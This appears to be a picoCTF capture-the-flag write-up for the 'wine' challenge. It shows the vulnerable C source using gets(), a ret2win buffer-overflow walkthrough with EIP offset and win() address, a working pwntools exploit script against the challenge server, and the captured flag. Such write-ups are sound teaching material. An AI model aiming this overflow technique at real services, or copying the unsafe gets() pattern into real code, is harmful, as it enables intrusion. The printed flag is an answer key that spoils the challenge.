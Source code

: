 # wine
> Write-up author: vreshco
## DESCRIPTION:
Challenge best paired with wine. I love windows. Checkout my exe running on a linux box. You can view source here. And connect with it using nc saturn.picoctf.net 50917
## HINT:
- Gets is dangerous. Even on windows.
## STEPS:
1. Given a 32 bit PE file.

![image](https://user-images.githubusercontent.com/70703371/224527642-e6e86e7d-d4ff-4dbd-9dc3-a7577baf8eea.png)


2. Let's analyze the source-code given.

> SOURCE-CODE

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void win(){
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("flag.txt not found in current directory.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

void vuln()
{
  printf("Give me a string!\n");
  char buf[128];
  gets(buf);
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}

```

3. Based from it we know that we can overflow the buffer of **buf** variable because of the `gets()` function.
4. With this we can control the **EIP** to return to the `win()` function which opens up a **flag.txt** file.
5. The pwn concept is simple ret2win, let's get started by finding the **EIP** offset using `winedbg`.

> WINEDBG -> sending 1024 bytes

![image](https://user-images.githubusercontent.com/70703371/224530940-5f0b997f-475a-44d3-9326-66cdf356d134.png)


![image](https://user-images.githubusercontent.com/70703371/224530971-4ab6c8be-2fc3-4003-8df6-643d1388b148.png)


6. Successfully overwrote the **EBP** and we can use the leaked **EIP** bytes to get it's offset.

> RESULT -> 140

![image](https://user-images.githubusercontent.com/70703371/224531002-0cc9e68d-d66b-464d-8a60-6e68f31113a5.png)


7. Next we need to find the address of the win function using gdb

> RESULT -> 0x401530

![image](https://user-images.githubusercontent.com/70703371/224531038-dec755dc-3199-4671-b285-476714e4199f.png)


8. Let's craft our script then using pwntools.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

sh = remote('saturn.picoctf.net', 57867)

padding = 140

context.log_level = 'debug'

p = asm('nop') * padding
p += pack(0x401530) # 0x401530 win func
sh.sendline(p)

sh.interactive()

```

9. Run the script

> RESULT

![image](https://user-images.githubusercontent.com/70703371/224531676-563dc5e6-6e13-4e73-86e0-3fd083344c6c.png)


10. Got the flag!

## FLAG

```
picoCTF{Un_v3rr3_d3_v1n_8ab00bc8}
```

